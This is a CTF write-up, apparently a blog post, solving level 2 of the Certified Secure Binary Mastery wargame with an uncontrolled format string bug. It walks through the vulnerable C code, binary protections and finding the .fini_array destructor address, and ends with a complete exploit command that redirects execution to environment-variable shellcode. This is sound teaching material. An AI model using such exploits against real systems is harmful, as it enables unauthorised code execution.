 ```yaml
---
title:  "[CTF] Binary Master Ensign - 2"
categories: [CTF, Binary-Master]
---
```


![Logo](/assets/images/belts-yellow.png)

We'll continue with level2 of the **Certified Secure Binary Mastery**, [Ensign](https://www.certifiedsecure.com/certification/view/37). This time it will be another classic issues that needs no introduction - _uncontrolled format strings attacks_. To review the previous level, check the link below:
* [Binary Master: Ensign - Level 1]({{ site.baseurl }}{% post_url 2016-01-07-binary-master-ensign-1 %})

## 0 - Discovery

Let's connect to the server and check the binary we're dealing with:
```
$ ssh level2@hacking.certifiedsecure.com -p 8266
0 packages can be updated.
0 updates are security updates.

   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      

```

Let's see if we have any mitigation techniques using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally:
```bash
$ checksec.sh --file level2
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   level2
```

NX is disabled and now there *is* a stack canary. But let's not worry about this yet, because we might not even be bothered by the presence of the canary. Let's verify that the stack is executable:
```
$ readelf -lW level2 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10
```

The R**W**E flag suggests Read-**Write**-Execute flags are all enabled. Also remember from the previous level that ASLR is disabled on the system and all the addresses are static.

## 1 - Vulnerability

What we have here is a classic uncontrolled format string vulnerability. The value of _buf_ comes from the user and is passed directly as a format string to the _printf_ call. There are so many excellent resources on this type of issues, there is no need for further details. If you're not familiar with it, for a better understanding, please check at least the following two papers. For brevity I will skip most of the details regarding the methodlogy which can be found in those papers.
* team teso - [Exploiting Format String Vulnerabilities](https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf)
* Saif El-Sherei - [Format String Exploitation-Tutorial](https://www.exploit-db.com/docs/28476.pdf)

```c
#include <stdio.h>
#include <string.h>

__attribute__((destructor)) void end(void) {
        printf("Bye!\n");
}

void helloworld(char* name) {
        char buf[128];

        strncpy(buf, name, 127);
        buf[127] = '\0';

        printf("Hello ");
        printf(buf);
        printf("!\n");
}

int main(int argc, char** argv) {
        if (argc != 2) {
                printf("Usage: %s <name>\n", argv[0]);

                return -1;
        }

        helloworld(argv[1]);

        return 0;
}
```

While we're here looking at the code, see if you notice anything unusual. What about the presence of the destructor function that just prints **"Bye!"**? Couldn't that be done just as a normal _printf_ call at the end of the _main_ function? Maybe it is a hint of some sort. Keep that in mind for later!

## 2 - Exploitation

Using the techniques from the second paper mentioned above, we can read and also overwrite any memory location. Exploitation steps:
* Place a shellcode in an environment variable.
* Find the address of the environment variable on the stack.
* Use the format string vulnerability to overwrite the address of the destructor **end** with the address of our environment variable.

To generate an appropriate shellcode and place it in an environment variable, check the previous post. To find out the address of our environment variable on the stack, again check the previous level.

First thing is to find out the address of the _end_ destructor. IDA Pro shows this really quickly if we check the **_.fini_array_** section. Notice also the permissions of this section. This is important because we want to overwrite the location of _end_ function with an address we control.

![ida destructor](/assets/images/bm2-1.png)

We can also use Linux tools to get the same information:

```bash
$ readelf -S  level2    
There are 30 section headers, starting at offset 0x9b8:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .interp           PROGBITS        08048134 000134 000013 00   A  0   0  1
  [ 2] .note.ABI-tag     NOTE            08048148 000148 000020 00   A  0   0  4
  [ 3] .note.gnu.build-i NOTE            08048168 000168 000024 00   A  0   0  4
  [ 4] .gnu.hash         GNU_HASH        0804818c 00018c 000020 04   A  5   0  4
  [ 5] .dynsym           DYNSYM          080481ac 0001ac 000080 10   A  6   1  4
  [ 6] .dynstr           STRTAB          0804822c 00022c 000074 00   A  0   0  1
  [ 7] .gnu.version      VERSYM          080482a0 0002a0 000010 02   A  5   0  2
  [ 8] .gnu.version_r    VERNEED         080482b0 0002b0 000030 00   A  6   1  4
  [ 9] .rel.dyn          REL             080482e0 0002e0 000008 08   A  5   0  4
  [10] .rel.plt          REL             080482e8 0002e8 000030 08   A  5  12  4
  [11] .init             PROGBITS        08048318 000318 000023 00  AX  0   0  4
  [12] .plt              PROGBITS        08048340 000340 000070 04  AX  0   0 16
  [13] .text             PROGBITS        080483b0 0003b0 000242 00  AX  0   0 16
  [14] .fini             PROGBITS        080485f4 0005f4 000014 00  AX  0   0  4
  [15] .rodata           PROGBITS        08048608 000608 000028 00   A  0   0  4
  [16] .eh_frame_hdr     PROGBITS        08048630 000630 00003c 00   A  0   0  4
  [17] .eh_frame         PROGBITS        0804866c 00066c 0000f0 00   A  0   0  4
  [18] .init_array       INIT_ARRAY      0804975c 00075c 000004 00  WA  0   0  4
  [19] .fini_array       FINI_ARRAY      08049760 000760 000008 00  WA  0   0  4
  [20] .jcr              PROGBITS        08049768 000768 000004 00  WA  0   0  4
  [21] .dynamic          DYNAMIC         0804976c 00076c 0000e8 08  WA  6   0  4
  [22] .got              PROGBITS        08049854 000854 000004 04  WA  0   0  4
  [23] .got.plt          PROGBITS        08049858 000858 000024 04  WA  0   0  4
  [24] .data             PROGBITS        0804987c 00087c 000008 00  WA  0   0  4
  [25] .bss              NOBITS          08049884 000884 000004 00  WA  0   0  1
  [26] .comment          PROGBITS        00000000 000884 00002b 01  MS  0   0  1
  [27] .shstrtab         STRTAB          00000000 0008af 000106 00      0   0  1
  [28] .symtab           SYMTAB          00000000 000e68 000480 10     29  45  4
  [29] .strtab           STRTAB          00000000 0012e8 0002a1 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings)
  I (info), L (link order), G (group), T (TLS), E (exclude), x (unknown)
  O (extra OS processing required) o (OS specific), p (processor specific)
```

Notice that section 19 - _.fini\_array_ is writable. Exactly what we need. And to dump the section in hex:

```bash
$ readelf --hex-dump=.fini_array level2

Hex dump of section '.fini_array':
  0x08049760 60840408 ad840408                   `.......
```
Second element at 0x08049764 is ad840408, or 0x080484ad - exactly the address of function **end**:
```bash
gdb-peda$ x/wx 0x08049764
0x8049764:      0x080484ad
gdb-peda$ p end
$4 = {<text variable, no debug info>} 0x80484ad <end>
```

Next we need to play a bit with the format string in order to discover how to correctly overwrite the value at address 0x08049764. Again, more explicit details on how to do this can be found in the second referenced paper.  So let's place our shellcode in the EGG environment variable, as we did before and get its address:

```bash
$  /tmp/level2-mod aaa
Hello aaa!
EGG address: 0xffffd8d3
```

**Warning!** If you're testing your exploit in GDB first (and you should), the address of the environment variables on the stack will be slightly different than outside GDB. While in GDB, you can print these addresses  by iterating through the _environ_ array. In my testcase the EGG variable was the 5th element:

```
(gdb) x/s *((char **)environ+4)
0xffffd903:     "EGG=", 'A' <repeats 19 times>
```

This means that in GDB the shellcode begins at **0xffffd903+4** (we add the length of the string _EGG=_ ).

Finding the correct format string involved a bit of trial and error, but in the end I managed to overwrite the address of _end_ destructor with my address.

## 3 - Profit

```
$ /levels/level2 $(printf "\x64\x97\x04\x08JUNK\x65\x97\x04\x08JUNK\x66\x97\x04\x08JUNK\x67\x97\x04\x08")%x%x%x%x%x%149x%n%261x%n%39x%n%256x%n
$ /home/level3/victory
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \   
                            \__/_//_/___/_/\_, /_//_/   
                                          /___/         
                            
Subject: Victory!                         
                                          
Congrats, you have solved level2. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level2 @ binary mastery ensign)
   * the exploit
   
You can now start with level3. If you want, you can log in
as level3 with password  [REDACTED]
```

In the [next level]({{ site.baseurl }}{% post_url 2016-01-21-binary-master-ensign-3 %}) we'll deal with more buffer related issues and some logical vulnerabilities as well.
